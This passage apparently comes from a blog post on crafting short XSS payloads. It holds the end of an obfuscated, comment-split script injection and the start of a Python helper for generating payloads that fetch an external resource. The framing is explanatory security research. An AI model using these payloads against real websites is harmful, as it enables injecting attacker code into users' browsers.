 */"()."/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/V=/*
*/693741/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"))";(/*
*/R(J))/*
*/();
</SCRIPT>
Appendix: Helper script
Use this script to generate some of the above types of payloads, but with the URL of your external resource to fetch. You can also adjust the character limit. This blog post assumes it’s called fetch_helpers.py.

The script may have been updated, check the latest version.

#!/usr/bin/env python2

import sys
import argparse
import string
import logging
import re

BLACK, RED, GREEN, YELLOW, BLUE, MAGENTA, CYAN, WHITE = range(8)

class ColorFormatter(logging.Formatter):
    COLORS = {
        'DEBUG'    : BLUE,
        'INFO'     : WHITE,
        'WARNING'  : YELLOW,
        'ERROR'    : RED,
        'CRITICAL' : RED,
    }
    def format(self, record):
        return '\x1b[1;3%dm%s\x1b[0m' % (
                self.COLORS[record.levelname],
                logging.Formatter.format(self,record))

MAX_JS_INT = 9007199254740991 # Number.MIN_SAFE_INTEGER

class Payload:
    def __init__(self, raw, to_string):
        self.raw = raw
        self.to_string = to_string
    
    def __len__(self):
        return len(self.raw)
    
    def __str__(self):
        return self.raw
    
